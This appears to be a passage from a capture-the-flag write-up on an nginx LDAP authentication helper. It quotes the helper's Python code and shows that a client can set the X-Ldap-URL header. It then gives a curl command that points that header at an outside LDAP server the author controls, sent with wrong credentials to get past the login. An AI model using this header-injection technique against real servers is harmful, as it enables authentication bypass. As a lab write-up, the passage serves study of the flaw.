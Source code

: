 ```python

            ctx['action'] = 'binding as an existing user "%s"' % ldap_dn

            ldap_obj.bind_s(ldap_dn, ctx['pass'], ldap.AUTH_SIMPLE)

            self.log_message('Auth OK for user "%s"' % (ctx['user']))

            # Successfully authenticated user
            self.send_response(200) #!
            self.end_headers()

        except:
            self.auth_failed(ctx)
```

In a few words: this code connects to the ldap server with internal creds and then tries to search for a user, supplied via the `Authorization` header. In case there's a user with such a username -- it tries to connect to the ldap server again using the creds provided in the `Authorization` header. In case the connection successful, we are getting the **200 OK** response.

So it looks like to get the flag we need to have at least one pair of a valid `user:pass` combination? Okay, it's wrong. There're interesting variables in the `params` dict of the `LDAPAuthHandler` class:

```python
    params = {
        # parameter      header         default
        'realm': ('X-Ldap-Realm', 'Restricted'),
        'url': ('X-Ldap-URL', None),
        'starttls': ('X-Ldap-Starttls', 'false'),
        'disable_referrals': ('X-Ldap-DisableReferrals', 'false'),
        'basedn': ('X-Ldap-BaseDN', None),
        'template': ('X-Ldap-Template', '(cn=%(username)s)'),
        'binddn': ('X-Ldap-BindDN', ''),
        'bindpasswd': ('X-Ldap-BindPass', ''),
        'cookiename': ('X-CookieName', '')
    }
```

Notice the `X-Ldap-URL` header. Let's try to point it to our arbitrary server pretending that we don't know a valid password:

```bash
% echo -n "admin:wrong" | base64
YWRtaW46d3Jvbmc=
```
```html
% curl localhost -H "Connection: X-Real-Ip" -H "Authorization: basic YWRtaW46d3Jvbmc=" -H "X-Ldap-URL: ldap://4rt.one:100"
<html>
<head><title>500 Internal Server Error</title></head>
<body>
<center><h1>500 Internal Server Error</h1></center>
<hr><center>nginx</center>
</body>
</html>
```
